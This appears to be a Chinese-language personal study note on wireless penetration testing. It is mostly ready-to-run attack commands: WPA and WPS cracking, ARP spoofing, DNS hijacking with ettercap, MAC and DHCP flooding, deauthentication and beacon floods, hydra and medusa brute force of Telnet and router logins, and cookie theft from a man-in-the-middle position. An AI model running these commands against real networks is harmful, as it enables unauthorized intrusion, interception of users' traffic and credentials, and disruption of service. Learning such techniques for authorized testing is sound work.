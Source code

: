 # 无线安全

2021/4/6

## WPA破解

- aircrack-ng	破解秘钥
- airdecap-ng    通过已知秘钥解密
- airmon-ng   监听
- aireplay-ng   数据包注入
- airodump-ng   数据包嗅探，抓包
-  airtun-ng   虚拟管道
- airolib-ng    保存essid密码
- packetforge-ng   创建数据包注入的加密包
- Tools   混合转换攻工具
- airbase-ng   软件模拟
- airdecloak-ng   消除pcap的加密
- airdriver-ng   无线驱动管理
- airolib-ng   允许不同进程访问网卡
- wesside-ng  破解wep秘钥



crunch 8 10 xxxx  /.cap	利用crunch自定义字典

hashcat -m 2500 /.hccp /.txt	利用hashcat加快解包速度

cowpatty -f 字典 -r  [报文] -s [ssid]	

genpmk -f [/root/pass] -d [生成的hashtable] -s [ssid]		只能针对该ssid



彩虹表加速

airolib-ng [数据库名] --import essid [/包含多个ssid的txt]  

airolib-ng [数据库名] --import essid  /字典.txt

airolib-ng [数据库] --batch

airolib-ng [数据库 --export cowpatty [ssid] [表名]

cowpatty -s [ssid] -d [表名] -r [cap]



wps  reaver

-i 网卡名

-b bssid

-c 信道

-e essid

-a 自动检测最佳ap

进度文件 /usr/local/etc/reaver



## 企业环境

3a

认证 授权  审计

使用环境：

1. nas较多
2. 用户较多
3. 用户变动大



## 机制突破

突破mac黑名单：修改mac地址

macchanger wlan0 -m 想改的mac



未开启DHCP网络：通过airdump-ug  解密sip dip网络层信息



## 内网渗透

1. 网络探测与扫描  nmap -sP（存活） -sT（端口） -sU（udp扫描） -sV（服务版本扫） -A（全扫）
   1. 判断网络中存活主机 -sP；
   2. 判断网络结构 traceroute ；
   3. 判断网络设备；
2. ARP欺骗攻击--Arpspoof
   1. echo 1 >> /proc/sys/net/ipv4/ip_forward  /开启路由转发 ，0为关闭，目标无法联网
      cat /proc/sys/net/ipv4/ip_forward  /查询路由转发
      arpspoof -i wlan0 -t 192.168.6.101 192.168.6.1  /伪装成网关
      arpspoof -i wlan0 -t 192.168.6.1 192.168.6.101  /伪装成目标系统
      成功，通过Wireshark查看，蓝色是目标发出的，黑色是本机转发的，粉色是网关发给目标被我们截取的
3. ARP欺骗攻击--Ettercap
   1. 开启路由转发
      arpspoof -i wlan0 -t 192.168.1.10 192.168.1.1  /攻击目标系统和网关
      urlsnarf -i wlan0  /查看访问url
      driftnet -i wlan	/查看访问图片
4. Ettercap实现DNS劫持
   1. vim /etc/ettercap/etter.dns
   2. *.qq.com A 10.10.10.10  //将所有qq.com的后缀网址转换到10.10.10.10
   3. ettercap -Tq -i eth0 -P dns_spoof // //
5. MAC泛洪攻击
   1. macof -i wlan0
6. DHCP泛洪--yersinia
   1. yersinia -G
   2. arp -a
7. CDP 思科发现协议
   1. 同上工具



## 干扰通讯  

1. 创建恶意无线热点---beacon广播泛洪
   1. MDK3   mdk3 mon0  b -n [指定wifi name] -w -g -c 1 -s 200
   2. mdk3  --help b
2. Authentication洪水攻击
   1. mdk3 --help a
3. Dauth Flood攻击(重放) 
   1. aireplay-ng -0 ch -a bssid wlan0
   2. mdk3 wlan0 d -c  ch    //  mdk3 --help d
4. 实现无线IPS访问控制
   1. airdrop
5. 限速同lan主机、毒化

## 报文处理

1. wireshark wep报文解密
   1. 设置首选项，key填入bssid
2. wireshark wpa报文解密
3. 合并、提取ivs、报文瘦身
   1. ivstools -merge 1.ivs 2.ivs 3.ivs   //合并ivs
   2. ivstools --convert wep.cap 1.ivs  //转换cap成ivs
   3. pyrit -r x.cap analyze   //分析包
   4. pyrit -r x.cap -e ESSID -o new.cap strip   //分解包
4. aircrack-ng解密

## 权限提升

1. 远程登录
2. nmap -sT扫描有无端口
3. telnet 尝试能否登录
4. 爆破 
   1. hydra -l cisco -P 密码本地址 telnet ://ip
   2. medusa -h ip -U 密码地址 -U 账号本地址 -P密码本地址 -M telnet
5. 爆破路由器登录密码：hydra  -L 地址 -P 地址 路由地址
6. 中间人攻击：arp欺骗后wireshark拿取cookie，通过base64等方式解码
7. 

## 维持访问

1. ddns+远程web管理